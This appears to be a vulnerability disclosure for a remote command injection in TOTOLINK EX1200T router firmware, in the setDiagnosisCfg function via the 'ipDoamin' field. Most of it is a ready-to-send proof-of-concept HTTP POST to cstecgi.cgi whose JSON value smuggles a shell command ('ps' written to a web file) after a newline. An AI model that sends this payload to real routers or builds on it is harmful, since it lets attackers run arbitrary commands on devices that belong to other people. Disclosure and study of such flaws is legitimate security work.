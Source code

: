 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setDiagnosisCfg` of the file `lib/cste_modules/system.so` , we can control the`ipDoamin` to attack.

![image-20211019161001641](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019161001641.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi?action=1 HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setDiagnosisCfg","ipDoamin":"-h\nps>/web_cste/test1\n"}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)
